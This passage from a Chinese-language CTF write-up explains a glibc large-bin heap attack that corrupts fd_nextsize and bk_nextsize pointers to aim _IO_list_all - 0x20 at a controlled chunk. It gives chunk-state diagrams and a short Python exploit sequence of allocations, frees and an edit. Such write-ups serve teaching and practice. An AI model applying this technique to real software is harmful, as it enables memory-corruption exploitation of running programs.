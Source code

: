 如上所示，此时 `_IO_list_all - 0x20`.`fd_nextsize` 不受影响. 因此需要 alloc 第三个堆: chunk_3，该堆大小必须小于 chunk_1.  
当 chunk_3 处于 unsorted bin 且马上分配至 large bin 时，chunk_3.`fd_nextsize` 和 chunk_3.`bk_nextsize` 将会重指向自 chunk_1，且 `_IO_list_all - 0x20` 也会重整. 如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	chunk_3

chunk_3
fd_nextsize: 	chunk_1
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	chunk_3
bk_nextsize:	0x0
```

而后需要 alloc 一个大小为 chunk_3 的空间，这样就能够抽走 large bin 中的 chunk_3，使得 `_IO_list_all - 0x20`.`fd_nextsize` 为 chunk_1，如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	chunk_1
bk_nextsize:	0x0
```

根据以上原理，写出代码

```py

add_com(0x548)  # chunk_1
add_com(0x548)  # chunk_2
add_com(0x538)  # chunk_3
del_com(1)      # free chunk_1 to unsorted bin
add_com(0x558)  # free chunk_1 to large bin
del_com(3)      # free chunk_3 to unsorted bin

edit_com(1, payload[16:])

add_com(0x568)  # free chunk_3 to large bin
add_com(0x538)  # alloc chunk_3

```

运行后如下所示

![qwb](/image/qwbs8/0.png)  
